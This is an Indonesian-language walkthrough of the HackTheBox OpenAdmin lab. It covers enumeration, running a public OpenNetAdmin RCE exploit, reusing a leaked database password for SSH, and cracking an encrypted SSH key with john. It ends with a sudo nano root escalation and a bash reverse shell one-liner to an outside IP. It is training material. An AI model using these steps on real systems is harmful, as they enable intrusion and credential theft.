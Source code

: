 ```yaml
---
title: "HackTheBox Machine - OpenAdmin"
classes: wide
header:
  teaser: /assets/images/htb-frame.png
search: false
categories: 
  - HackTheBox Machine
toc: true
toc_label: "Contents"
last_modified_at: 2020-03-05T15:58:26+08:00
---
```


![HTB OpenAdmin](/assets/images/htb-machine-openadmin/featured-image.jpg)

### Scanning

Hal pertama yang dilakukan adalah scanning menggunakan nmap terhadap alamat ip `10.10.10.171`

![02](/assets/images/htb-machine-openadmin/02.png)

### Enumeration

didapatkan open port antara lain port `22` dan port `80`. Untuk port `80` yaitu akses website dapat dicek menggunakan browser.

![03](/assets/images/htb-machine-openadmin/03.png)

Namun, hanya tampilan `default` dari Apache2 server. Untuk itu dibutuhkan process enumerasi lebih lanjut terhadap akses alamat ip target tersebut, dengan menggunakan directory scanner, dalam hal ini saya gunakan `dirbuster` bawaan dari kali linux, dan dengan wordlist `directory-list-2.3-medium.txt`

![04](/assets/images/htb-machine-openadmin/04.png)

saat proses `brute-forcing` terdapat beberapa direktori yang dapat di tangkap, seperti direktori `music` dan `ona`, kemudian dilakukan pengecekan satu-persatu. Dan yang paling menarik adalah pada direktori `ona` tersebut, yang dapat diakses melalui url `http://10.10.10.171/ona` dan ini merupakan sebuah `clue` yang sesuai dengan nama machine htb tersebut yaitu `OpenAdmin`.

![05](/assets/images/htb-machine-openadmin/05.png)

Tidak perlu berlama lagi, proses bruteforcing tidak perlu dilanjutkan,dan langusung berfokus pada target `http://10.10.10.171/ona` yaitu sebuah website untuk monitoring sistem bernama `OpenNetAdmin`.

Selanjutnya beberapa hal yang perlu dilakukan antara lain adalah mencari informasi mengenai `OpenNetAdmin`, bisa menggunakan `searchploit` ataupun browsing/googling dengan kata kunci `OpenNetAdmin exploit`

Berikut tampilan dari `searchploit`
![06](/assets/images/htb-machine-openadmin/06.png)

Berikut tampilan dari website exploit-db [https://www.exploit-db.com/exploits/47691](https://www.exploit-db.com/exploits/47691)
![06-b](/assets/images/htb-machine-openadmin/06-b.png)

vuln yang digunakan adalah `OpenNetAdmin 18.1.1 - Remote Code Execution ` kemudian lanjut dengan meng-copy script dari path `exploits/php/webapps/47691.sh`

![07](/assets/images/htb-machine-openadmin/07.png)

`catatan`: gunakan command `dos2unix` pada file tersebut, agar kompatibel dengan sistem operasi linux/unix

![08](/assets/images/htb-machine-openadmin/08.png)

Jalankan script tersebut dengan target `http://10.10.10.171/ona`, kemudian didapatkan akses terminal terhadap server opennetadmin tersebut, dan diarahkan ke akses `www-data`
![09](/assets/images/htb-machine-openadmin/09.png)
![10](/assets/images/htb-machine-openadmin/10.png)

target enumerasi selanjutnya adalah file konfigurasi OpenNetAdmin tersebut yaitu pada direktori `/opt/ona/www/config/`

![11](/assets/images/htb-machine-openadmin/11.png)

terdapat informasi penting mengenai file konfigurasi database `OpenNetAdmin` tersebut yaitu pada `/opt/ona/www/config/database_setting.inc.php`

![12](/assets/images/htb-machine-openadmin/12.png)

informasi yang didapatkan adalah berupa `db_login`,`db_passwd`
![13](/assets/images/htb-machine-openadmin/13.png)

```php
'db_type' => 'mysqli',
'db_host' => 'localhost',
'db_login' => 'ona_sys',
'db_passwd' => 'n1nj4W4rri0R!',
'db_database' => 'ona_default',
'db_debug' => false,
$ 
```

Selanjutnya, menampilkan list user server `OpenNetAdmin` tersebut, yaitu `root`, `jimmy`, `joanna`

![14](/assets/images/htb-machine-openadmin/14.png)

Gunakan password yang didapatkan pada file `/opt/ona/www/config/database_setting.inc.php` yaitu `n1nj4W4rri0R!` untuk remote ssh, dalam hal ini merupakan password untuk user `jimmy`.


![15](/assets/images/htb-machine-openadmin/15.png)

### Privilege Escalation - USER (Joanna)

Untuk tahap selanjutnya, masuk ke direktori `/var/www/` dimana terdapat path lain yaitu `html` `internal` dan `ona` dalam hal ini path/direktori `internal` memberikan informasi penting yaitu mengenai file `main.php` yang mana terdapat informasi mengenai eksekusi `shell_exec` ke file `id_rsa` punya joanna

![16](/assets/images/htb-machine-openadmin/16.png)

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Kemudian saya mencoba untuk mengakses file `main.php` tersebut secara local menggunakan `curl` dan didapatkan informasi seperti gambar berikut, yang artinya menampilkan `404 Not Found`


![17](/assets/images/htb-machine-openadmin/17.png)

beberapa hal yang memungkinkan adalah terdapat service jaringan yang berjalan pada background, hal tersebut dapat di cek dengan menggunakan `netstat` dan terdapat informasi yang berjalan secara localhost adalah pada port database `127.0.0.1:3306` dan service `127.0.0.1:52846`

![17-b](/assets/images/htb-machine-openadmin/17-b.png)


Okay, mari kita akses dengan cmd `curl http://localhost:52846/main.php`, maka menampilkan `cat` terdapat file `/home/joanna/.ssh/id_rsa` untuk `joanna`.


![17-c](/assets/images/htb-machine-openadmin/17-c.png)

copy informasi certificate id_rsa tersebut, kemudian simpan untuk dilakukan bruteforce menggunakan john

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----

```

gunakan tool `ssl2john.py` dan `john` untuk melakukan bruteforce dan didapatkan password untuk joanna adalah `bloodninjas` -> `joanna:bloodninjas`

![18](/assets/images/htb-machine-openadmin/18.png)

selanjutnya mari lakukan akses ssh untuk akun joanna tersebut, kemudian akses flag `user.txt` 
![19](/assets/images/htb-machine-openadmin/19.png)

![19-b](/assets/images/htb-machine-openadmin/19-b.png)

### Privilege Escalation - ROOT

Disini saya mengunakan trik untuk membypass untuk melihat root.txt setelah mendapatkan akses untuk user `joanna`, gunakan command `sudo -l` untuk masuk ke akses `root`,di dapatkan informasi yaitu `/bin/nano /opt/priv`

![20](/assets/images/htb-machine-openadmin/20.png)

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
joanna@openadmin:~$ 

```
berikut adalah trik untuk langsung mendapatkan flag `root.txt` eksekusi command `sudo nano /opt/priv`
![21](/assets/images/htb-machine-openadmin/21.png)

kemudian akan diarahkan ke `nano` dan tekan `ctrl+r` untuk `read file`, untuk step ini saya langsung ke path `/root/root.txt` :D kemudian tekan `Enter` dan ternyata dapat di akses

![22](/assets/images/htb-machine-openadmin/22.png)

**Tambahan:** untuk previllege escalation root, pada `sudo nano /opt/priv` input cli reverse shell menggunakan bash cli `bash -i >& /dev/tcp/10.10.14.21/4444 0>&1` kemudian dari sisi komputer host `nc -lvnp 4444`






